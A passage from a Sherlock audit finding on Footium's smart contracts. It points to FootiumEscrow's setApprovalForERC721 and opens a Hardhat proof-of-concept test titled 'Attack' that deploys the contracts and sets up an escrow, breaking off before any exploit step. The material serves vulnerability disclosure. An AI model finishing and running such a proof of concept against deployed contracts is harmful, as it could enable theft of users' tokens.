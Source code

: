 ## Code Snippet

`FootiumEscrow`'s [`setApprovalForERC721`](https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#LL90C4-L96C6) is the main function.

Here is a quick PoC Test in Hardhat to show the scenario:
```solidity
import "@nomiclabs/hardhat-ethers";

import { expect } from "chai";
import { ethers } from "hardhat";

import {
    constructDivsMerkleTree,
    deployProxy,
    getDivisionMintingFees,
    hashClubDivisionInputs,
    MINTER_ROLE,
} from "../scripts/helpers";

const clubDivMetadata = require("../scripts/clubDivsMetadata.json");
const divFeeMetadata = require("../scripts/divFeesMetadata.json");
const clubDivsTree = constructDivsMerkleTree(clubDivMetadata);

describe("Attack", function () {
    let escrow, academy, players, owner, newOwner, clubs;

    before(async () => {
        [owner, newOwner] = await ethers.getSigners();

        clubs = await deployProxy("FootiumClub", [""]);

        const receiverAddress = newOwner.address;
        const receiverPercentage = 500; // hardcoded as we don't check/use it
        const tokenURI = "SomeTokenURI"; // hardcoded as we don't check/use it

        players = await deployProxy("FootiumPlayer", [
            receiverAddress,
            receiverPercentage,
            tokenURI,
        ]);
        const divisionFees = getDivisionMintingFees(divFeeMetadata);

        academy = await deployProxy("FootiumAcademy", [
            players.address,
            clubs.address,
            owner.address,
            10,
            divisionFees,
        ]);

        await players.grantRole(MINTER_ROLE, academy.address);
        await clubs.grantRole(MINTER_ROLE, owner.address);

        await clubs.safeMint(owner.address, 1);
        await clubs.safeMint(owner.address, 7);

        const escrowAddress1 = await clubs.clubToEscrow(1);
        const escrowAddress7 = await clubs.clubToEscrow(7);

        await academy.setClubDivsMerkleRoot(clubDivsTree.getHexRoot());

        const EscrowFactory = await ethers.getContractFactory("FootiumEscrow");
        escrow = EscrowFactory.attach(escrowAddress7);
```